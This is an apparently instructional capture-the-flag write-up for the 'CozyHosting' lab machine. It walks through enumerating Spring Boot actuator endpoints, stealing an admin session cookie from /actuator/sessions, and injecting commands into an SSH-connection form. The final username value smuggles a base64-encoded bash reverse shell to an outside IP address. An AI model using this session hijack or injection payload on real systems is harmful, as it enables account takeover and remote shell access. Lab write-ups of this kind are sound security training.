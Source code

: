 At first sight we get nothing interesting, except for the _admin_ page, however trying to access it we are redirected to the login page, finding ourselves back to the beginning.

Interesting is playing with other links, where all point to a strange error page

<img src="https://github.com/x1foideo/CTFs-Writeups/blob/main/img/cozyhosting/error_page.png?raw=true" width="600">

Searching the internet for _Whitelabel Error Page_, we find out that it's a _Spring Boot error page_.

We can proceed at this point to a new enumeration for interesting pages related to this framework:

```bash
gobuster dir -e -u http://cozyhosting.htb/ -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
```
```
http://cozyhosting.htb/actuator/mappings    (Status: 200) [Size: 9938]
http://cozyhosting.htb/actuator/sessions    (Status: 200) [Size: 198] 
http://cozyhosting.htb/actuator             (Status: 200) [Size: 634] 
http://cozyhosting.htb/actuator/health      (Status: 200) [Size: 15]  
http://cozyhosting.htb/actuator/env         (Status: 200) [Size: 4957]
http://cozyhosting.htb/actuator/beans       (Status: 200) [Size: 127224]
```

Looking for informations about these, we get that _actuator/sessions_ represents all the active sessions.
We found that most of the sessions are "UNAUTHORIZED", however, it's possible to find something related to a "kanderson".

We can abuse the data we got using **Burp**.
Trying to access to _admin_ page we can intercept a GET request with an interesting Cookie Header:

``` html
Cookie: JSESSIONID=E2630FCF6238722EC6F74A7929A36F5E
```

Editing this one with the one related to "kanderson", we are able to access to the _Admin Dashboard_

<img src="https://github.com/x1foideo/CTFs-Writeups/blob/main/img/cozyhosting/dashboard_page.png?raw=true" width="600">


## Solution

#### Command Injection

Analyzing the Dashboard it is possible to find out the only interesting thing here deals with the form which relates to an _ssh\_connection_.

Sending some datas and inspecting the traffic with Burp, results that it is possible to take advantage of this form with a Command Injection.
Moreover, we are not allowed to use spaces in username form, and since I was having problem sending the payload in plaintext, I decided to use base64.

Trying for a revshell resulted in:
- Hostname: _localhost_
- Username:
```
kanderson;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4zLzk5OTkgMD4mMQ=="|base64${IFS}-d|bash;
```
